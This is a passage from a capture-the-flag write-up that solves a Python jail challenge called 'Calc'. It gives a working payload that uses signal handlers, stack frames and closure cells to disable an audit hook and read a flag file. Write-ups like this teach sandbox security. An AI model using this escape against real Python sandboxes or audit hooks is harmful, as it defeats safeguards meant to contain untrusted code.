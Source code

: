```python
{'__name__': '__main__', '__doc__': 'from sys import addaudithook\n\ndef hook(*a): exit(0)\ndef dummy() : pass\n\nexpr = input("Math expression: ")\ndummy.__code__ = compile(expr, "<code>", "eval")\n\naddaudithook(hook)\n\nprint(dummy())', '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x00000162B1E85210>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': 'c:path\\to\\wu.py', '__cached__': None, 'addaudithook': <built-in function addaudithook>, '_exit': <built-in function _exit>, 'safe_eval': <function safe_eval at 0x00000162B1E304A0>, 'expr': "s:=__import__('sys').modules['_signal']),s.signal(2,lambda n,f:print(f.f_locals)),s.raise_signal(2)", 's': <module '_signal' (built-in)>}
```

Well not the right frame, let's move up and down with ``f_back`` (leaving the ``dummy()`` frame and going to ``safe_eval``)

```python
(s:=__import__('sys').modules['_signal']),s.signal(2,lambda n,f:print(f.f_back)),s.raise_signal(2)

# Output
<frame at 0x000001A3949DAF60, file 'c:path\\to\\wu.py', line 27, code safe_eval>

# f_locals
{'exit': <built-in function _exit>, 'code': "(s:=__import__('sys').modules['_signal']),s.signal(2,lambda n,f:print(f.f_back.f_locals)),s.raise_signal(2)", 'hook': <function safe_eval.<locals>.hook at 0x000001ABF4218D60>, 'dummy': <function safe_eval.<locals>.dummy at 0x000001ABF4218EA0>}
```

Finally 🤩 ! We have access to ``hook`` 🥳🎉
To finish we just need to modify its local values through its ``__closure__`` ([ref](https://docs.python.org/3/reference/datamodel.html#function.__closure__))

```python
lambda n,f:f.f_back.f_locals['hook'].__closure__[0].__setattr__('cell_contents',chr))
```

🥁 ***Final solution*** 🥁

```python
(s:=__import__('sys').modules['_signal']),s.signal(2,lambda n,f:f.f_back.f_locals['hook'].__closure__[0].__setattr__('cell_contents',chr)),s.raise_signal(2),open('flag').read()

# And to avoid the limits in the Original version™️
0,(s:=__import__('sys').modules['_signal']),s.signal(2,lambda n,f:f.f_back.f_locals['hook'].__closure__[0].__setattr__('cell_contents',chr)),s.raise_signal(2),open('flag').read()


# Output
(0, <module '_signal' (built-in)>, <built-in function default_int_handler>, None, 'well_done')
```

# Closing note
Overall pretty interesting PyJails 💖 They were well guided with their really distinct little details, the left over ``ord`` in Ok Nice and all the function setup in Calc.
As always we learned a lot about Python internals and what a madness it is in there 😋 Ok Nice was based more on our Python skills and creativity to get the flag, while Calc was more on Python internals (sys, \_signal, frames, closure, ...)
For **Calc**, one inspiration to find a bypass would be by looking at what was previously made. Audithooks are pwned since Python 3.8 and there are some places where it is ~~randomly~~ discussed, for instance [on Github](https://github.com/python/cpython/issues/87604)
